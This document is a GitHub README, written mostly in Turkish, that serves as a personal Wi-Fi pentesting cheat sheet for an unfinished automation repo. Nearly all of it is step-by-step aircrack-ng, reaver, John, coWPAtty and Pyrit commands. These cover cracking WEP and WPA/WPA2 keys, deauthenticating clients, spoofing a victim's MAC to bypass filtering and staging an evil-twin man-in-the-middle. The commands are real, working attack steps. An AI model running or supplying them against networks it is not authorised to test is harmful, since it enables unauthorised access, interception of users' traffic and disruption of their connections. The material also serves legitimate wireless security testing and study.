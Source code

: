 Bu Reponun amacı Wi-Fi Pentestlerini otomotize bir hale getirmek için oluşturulmuş bir Repo'dur. Amaç; hem bir not defteri olarak kullanmak hem de eksik görülen yerleri eklemektir. Proje hala daha "geliştirilme aşamasında" olup henüz tam olarak çalışmamaktadır. Olması hedeflenen saldırı türleri;

# Coffe - Latte Attack
# Deauthentication Attack (Stress Testing)
# PMKID Attack
# SSL MITM Attack
# Korek's Chop Chop Attack
# Fragmantation And Hitre Attack
# Hotsopt Attack
# Detecting AP Spoffing
# Detecting AP MAC Spoffing
# WPA/WPA2/WEB Capture Handshake
# Control Wi-Fi Card

------------------------------------------------------------
Monitoring

root@mert:~# airmon-ng check kill

monitor mod on

root@mert:~# ifconfig wlan0 down
root@mert:~# airmon-ng start wlan0
# hata verirse bekle tekrar dene
# iwconfig wlan0 mode monitor
# use wlan0 instead of wlan0mon
root@mert:~# ifconfig wlan0 up
---------------------------------------------------------------------------------------
Increase Wi-Fi TX Power

root@mert:~# iw reg set B0
root@mert:~# iwconfig wlan0 txpower <NmW|NdBm|off|auto>
#txpower is 30 (generally)
#txpower is depends your country, please googling
root@mert:~# iwconfig
----------------------------------------------------------------------------------------------

Change WiFi Channel #wifi çanıl seç
root@mert:~# iwconfig wlan0 channel <SetChannel(1-14)>
--------------------------------------------------------------------------------------------


WEP CRACKING
 Method 1 : Fake Authentication Attack #sahte atak
root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC adresim ne?
root@mert:~# macchanger --show wlan0mon

root@mert:~# aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
root@mert:~# aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 2 : ARP Replay Attack #arp atak

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~# macchanger --show wlan0mon
root@mert:~# aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 3 : Chop Chop Attack  #!!!!!!mantığını araştır ve anla bunu!!!!!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~# macchanger --show wlan0mon
root@mert:~# aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~# aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~# aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~# aircrack-ng <PCAP_of_FileName>




Method 4 : Fragmentation Attack

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~# macchanger --show wlan0mon
root@mert:~# aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~# aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
#Press ‘y’ ;
root@mert:~# packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~# aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~# aircrack-ng <PCAP_of_FileName>




Method 5 : SKA (Shared Key Authentication) Type Cracking

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon down
root@mert:~# macchanger –-mac <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon up
root@mert:~# aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
root@mert:~# aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
root@mert:~# aircrack-ng <PCAP_of_FileName>
----------------------------------------------------------------------------------------------------------


WPA / WPA2 CRACKING
Method 1 : WPS Attack

root@mert:~# airmon-ng start wlan0
root@mert:~# apt-get install reaver
root@mert:~# wash –i wlan0mon 
root@mert:~# reaver –i wlan0mon –b <BSSID> -vv –S
#or, Specific attack
root@mert:~# reaver –i wlan0mon –c <Channel> -b <BSSID> -p <PinCode> -vv –S



Method 2 : Dictionary Attack #mantığını kavra!!!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>




Method 3 : Crack with John The Ripper #en son işlem. Gerekliliğini araştır****

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# cd /pentest/passwords/john
root@mert:~# ./john –wordlist=<Wordlist> --rules –stdout|aircrack-ng -0 –e <ESSID> -w - <PCAP_of_FileName>
#or
root@mert:~# aircrack-ng <FileName>.cap -J <outFile>
root@mert:~# hccap2john <outFile>.hccap > <JohnOutFile>
root@mert:~# john <JohnOutFile>



Method 4 : Crack with coWPAtty #bunu hiç bilmiyon. Kesinlikle bak.....!!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# cowpatty –r <FileName> -f <Wordlist> -2 –s <SSID>
root@mert:~# genpmk –s <SSID> –f <Wordlist> -d <HashesFileName>
root@mert:~# cowpatty –r <PCAP_of_FileName> -d <HashesFileName> -2 –s <SSID>




Method 5 : Crack with Pyrit

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# pyrit –r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
root@mert:~# pyrit –i <Wordlist> import_passwords
root@mert:~# pyrit –e <ESSID> create_essid
root@mert:~# pyrit batch
root@mert:~# pyrit –r <PCAP_of_FileName> attack_db




Method 6 : Precomputed WPA Keys Database Attack

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# kwrite ESSID.txt
root@mert:~# airolib-ng NEW_DB --import essid ESSID.txt
root@mert:~# airolib-ng NEW_DB --import passwd <DictionaryFile>
root@mert:~# airolib-ng NEW_DB --clean all
root@mert:~# airolib-ng NEW_DB --stats
root@mert:~# airolib-ng NEW_DB --batch
root@mert:~# airolib-ng NEW_DB --verify all
root@mert:~# aircrack-ng –r NEW_DB <Handshaked_PCAP>

-----------------------------------------------------------------------------------
FIND HIDDEN SSID

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> wlan0mon
root@mert:~# aireplay-ng -0 20 –a <BSSID> -c <VictimMac> wlan0mon


-------------------------------------------------------------------------------------
BYPASS MAC FILTERING
#klasik işlemler. Unutmamak için koydum. Ama yine de bak!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon down
root@mert:~# macchanger –-mac <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon up
root@mert:~# aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon

--------------------------------------------------------------------------------------------------

MAN IN THE MIDDLE ATTACK

root@mert:~# airmon-ng start wlan0
root@mert:~# airbase-ng –e “<FakeBSSID>” wlan0mon
#apt-get install bridge-utils #bunu netten buldum. Gerekliliğini araştır. Ama sorun çözüyor...
root@mert:~# brctl addbr <VariableName>
root@mert:~# brctl addif <VariableName> wlan0mon
root@mert:~# brctl addif <VariableName> at0
root@mert:~# ifconfig eth0 0.0.0.0 up
root@mert:~# ifconfig at0 0.0.0.0 up
root@mert:~# ifconfig <VariableName> up
root@mert:~# aireplay-ng –deauth 0 –a <victimBSSID> wlan0mon
root@mert:~# dhclient3 <VariableName> &
root@mert:~# wireshark &
;select <VariableName> interface
